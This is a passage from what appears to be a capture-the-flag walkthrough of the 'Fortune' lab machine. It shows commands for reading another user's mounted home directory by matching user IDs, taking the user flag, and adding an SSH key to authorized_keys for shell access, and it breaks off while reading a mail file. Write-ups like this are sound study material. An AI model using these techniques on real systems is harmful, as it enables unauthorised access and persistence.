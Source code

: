 I already have users on my local host with those ids:



    root@kali# cat /etc/passwd | grep -e 1000 -e 1001
    ssh_user:x:1000:1000::/home/ssh_user:/bin/sh
    dummy:x:1001:1001::/home/dummy:/bin/bash



If I switch to ssh_user (1000), I now have access as charlie, and can
grab `user.txt`:



    root@kali# su ssh_user
    ssh_user@kali$ ls /mnt/fortune/charlie/
    mbox  user.txt
    ssh_user@kali$ cat /mnt/fortune/charlie/user.txt 
    ada0affd...



### Shell

I can also generate a key pair with `ssh-keygen` and add the public key
to charlie's (or bob's) `authorized_keys` file. Then I can ssh into the
box as either user:



    root@kali# ssh -i ~/id_rsa_generated charlie@10.10.10.127
    OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

    Welcome to OpenBSD: The proactively secure Unix-like operating system.
    fortune$ id
    uid=1000(charlie) gid=1000(charlie) groups=1000(charlie), 0(wheel)



## Priv: charlie --\> root

### Enumeration

In charlie's homedir, in addition to `user.txt`, there's an mbox mail
file. It contains an email:



    fortune$ cat /home/charlie/mbox
    From bob@fortune.htb Sat Nov  3 11:18:51 2018
    Return-Path: <bob@fortune.htb>
    Delivered-To: charlie@fortune.htb
    Received: from localhost (fortune.htb [local])
            by fortune.htb (OpenSMTPD) with ESMTPA id bf12aa53
            for <charlie@fortune.htb>;
            Sat, 3 Nov 2018 11:18:51 -0400 (EDT)
    From:  <bob@fortune.htb>
    Date: Sat, 3 Nov 2018 11:18:51 -0400 (EDT)
    To: charlie@fortune.htb
    Subject: pgadmin4
    Message-ID: <196699abe1fed384@fortune.htb>
    Status: RO
